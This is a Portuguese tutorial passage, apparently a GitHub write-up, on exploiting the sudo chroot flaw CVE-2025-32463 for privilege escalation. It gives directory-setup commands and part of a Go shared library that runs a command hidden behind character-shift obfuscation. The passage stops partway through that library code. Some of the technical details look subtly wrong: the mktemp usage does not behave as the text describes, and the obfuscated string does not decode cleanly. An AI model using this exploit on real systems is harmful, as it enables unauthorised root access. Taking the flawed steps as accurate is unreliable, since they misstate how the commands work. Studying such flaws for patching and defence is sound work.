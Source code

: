 # CVE 2025-32463: Privilege Escalation no sudo -R

Olá, eu sou hoWo e nesse paper aborderamos as nuances da CVE 2025-32463 (também conhecida como "CHWOOT")

## Exemplo

Para começar, entenderemos o que é a vulnerabilidade.
Ela ocorre entre as versões 1.9.14 (inclusa) até a 1.9.17 (inclusa), sendo corrigida na versão 1.9.17p1
A vulnerabilidade consiste em:

Criar um temp dir (mktemp) que segue a estrutura:
```anot_estrutura
  /tmp/woot
  -> /tmp/woot/etc
     -> /tmp/woot/etc/nsswitch.conf

  -> /tmp/woot/lib
     -> /tmp/woot/lib/woot.so

```

Claro que não basta apenas sair criando diretórios, temos que seguir um fluxo:

### 1. ***Vamos criar nosso ambiente para executar o exploit*:**

```bash
mktemp -p /tmp/woot/etc
mktemp -p /tmp/woot/lib

```

Explicando rapidamente, utilizamos o mktemp para criar um diretório temporário, em `/tmp`. 
A flag `-p` serve para não termos que diretamente criar o `/tmp/woot` e criar o `./etc` e `./lib`, a flag `-p` cria o `/tmp/woot` automaticamente para que possamos focar em criar os sub-diretórios.
Perceba que criamos `/etc` e `/lib`, simulando um diretório raiz do linux.

### 2. ***Criaremos agora o módulo malicioso*:**

Geralmente criamos esse tipo de coisa em C ou C++, mas eu sou skid então vou utilizar go.

```go
package main

import (
	"C" // a lib "C" nos permite criar o .so (utilizando cgo), e exportar com //export funcname
	"os/exec"
	"strings"

)

var s string = "/ckq3ggzp"
var ss []string

//export Init
func Init() {
    for i, v := range s {
	    ss = append(ss, string([]rune{v + rune(i)}))

    }

    c := exec.Command(strings.Join(ss, ""))
	c.Run()
```